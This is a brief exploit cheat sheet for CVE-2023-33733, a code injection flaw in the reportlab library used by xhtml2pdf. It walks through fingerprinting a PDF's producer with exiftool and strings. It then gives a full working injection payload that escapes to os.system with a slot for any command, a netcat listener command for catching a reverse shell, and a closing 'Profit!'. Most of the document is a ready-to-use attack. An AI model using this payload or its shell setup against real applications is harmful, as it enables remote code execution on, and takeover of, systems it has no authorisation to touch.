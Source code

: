 # xhtml2pdf reportlab Python Library Code Injection CVE-2023-33733

## Link: https://github.com/c53elyas/CVE-2023-33733

### Steps to exploit:

#### 1) Check for any functions that converts to pdf. Download the pdf and inspect it with exiftool and/or strings

 - exiftool FILE.pdf

 - strings FILE.pdf

#### 2) Upon inspection, if we find that the producer is xhtml2pdf and/or with strings we find that the pdf is being generated with reportlab library, we craft an exploit to gain code execution.

    <para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('INJECT_COMMAND_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"<
                exploit
                </font></para>

#### 3) Setup listener to catch the shell

 - nc -lvnp 4444

#### 4) Inject the exploit written above to the appropriate field for it to trigger

#### 5) Profit!

